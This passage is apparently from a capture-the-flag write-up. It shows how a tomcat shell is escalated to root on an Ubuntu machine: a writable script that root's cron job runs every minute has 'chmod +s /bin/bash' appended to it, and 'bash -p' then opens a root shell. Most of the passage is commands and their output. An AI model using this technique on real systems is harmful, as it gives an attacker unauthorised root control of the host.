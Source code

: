 Navigate to /home/jack and start reading file i understand that file id.sh somehow execute by root and redirect output to text.txt
```
tomcat@ubuntu:/tmp$ cd /home/jack
cd /home/jack
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
[REDACTED]
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt

```
Let first check crontab to confirm that somehow there is cronjobs running
Commands
```
cat /etc/crontab
```
Output
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#

```
As you can see from above, that there is cronjob being running and execute id.sh after navigate to /home/jack as root

Luckliy for me, this file id.sh, i have permission to edit
I will pass `chmod +s /bin/bash` in which it will change by setting /bin/bash setuid

```
tomcat@ubuntu:/home/jack$ echo -n "chmod +s /bin/bash" >> id.sh
echo -n "chmod +s /bin/bash" >> id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
chmod +s /bin/bashtomcat@ubuntu:/home/jack$ 

```
After awhile, we successful set setuid and execute` /bin/bash -p` to get shell as root
